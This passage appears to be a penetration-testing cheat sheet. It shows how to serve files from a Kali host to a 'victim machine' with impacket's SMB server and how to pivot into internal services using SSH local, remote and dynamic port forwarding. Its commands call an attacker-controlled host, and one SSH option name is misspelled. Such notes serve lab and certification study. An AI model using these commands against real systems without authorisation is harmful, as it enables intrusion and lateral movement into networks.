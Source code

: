 Transfer file using impacket samba script:
```
#In kali start SMB Server
python3 smbserver.py byte /home/bytef/files


#on the victim machine view the share name
net view \\kali_ip
net use \\10.10.14.6\byte

#copy the file from shared folder
copy \\kali_ip\byte\file.ext file.ext
```

## Piviot/Tunnel/Port Forwarding 
Port forward is required when we can’t access an specific service or other internal machine from our kali machine!

### Local Port Forwarding 
Have SSH access with low privileges? and There are some ports open internally? Try Local Port Forwarding.

-L = Kali’s Port
-R = Kali Port
$ip:3306 is the port from target
```
ssh –L 3306:$ip:3306 user@$target_ip
```

### Remote Port Forwarding 
No SSH Access but limited shell? Also some weird port is open? Upload plink and Try Remote port forward with plink
```
ssh –R 3306:localhost:3306 root@kali_ip
ssh –R 3306:localhost:3306 -o "UserKnownHostFile=/dev/null" -o "UserHostKeyChecking=no" root@kali_ip
```

Connect to the tunneled port:
```
#Verify with nc
nc -vvv localhost 3306

#If mysql
mysql -u username -p -h 127.0.0.1 -P 3306
```

### Dynamic Port Forwarding(Socks4) 
Dynamic Port Forwarding from victim machine(Socks Proxy):
```
ssh -D 8080 -f -N user@$target_ip
```
